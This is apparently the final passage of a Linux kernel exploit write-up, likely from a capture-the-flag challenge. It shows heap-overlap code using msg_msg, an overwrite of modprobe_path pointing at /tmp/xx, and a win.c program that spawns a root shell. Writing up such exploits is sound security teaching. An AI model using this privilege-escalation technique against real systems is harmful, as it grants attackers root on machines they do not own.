 ```cpp
        error("heap_leak is 0");

    for (int i = 2; i < 0x20 / 8; i++)
    {
        ptr[i] = heap_leak;
    }

    // debug();

    // here we override the overlapped msg_msg with our own buffer
    memcpy(buf, tmp, 0x20);
    return 0x20;
}
```

## Getting LPE

Now if you do `cat /proc/sys/kernel/modprobe`, you will see that it is `/tmp/xx`.

At this point, now you have arbitary code execution as root. Write some code in any language and place it in `/tmp/xx` and run `dummy` program with bad header.

For us, we will run `win` program from below. It will just give us shell. 

### win.c
```cpp
void pwn::win()
{
    char *argv[] = {(char *)"/bin/sh", NULL};
    char *envp[] = {NULL};
    execve("/bin/sh", argv, envp);
}

#include <kt.h>

int main() {
  pwn::win();
  return 0;
}

```

### Code from exp

```cpp
pwn::modprobe_path::init("/tmp/xx", "/tmp/dummy", "/home/user/win");
pwn::modprobe_path::trigger("/tmp/dummy", "/home/user/win");
```

### Rooting!

It might not work the first time. Also it takes few seconds because FUSE is slowwww.
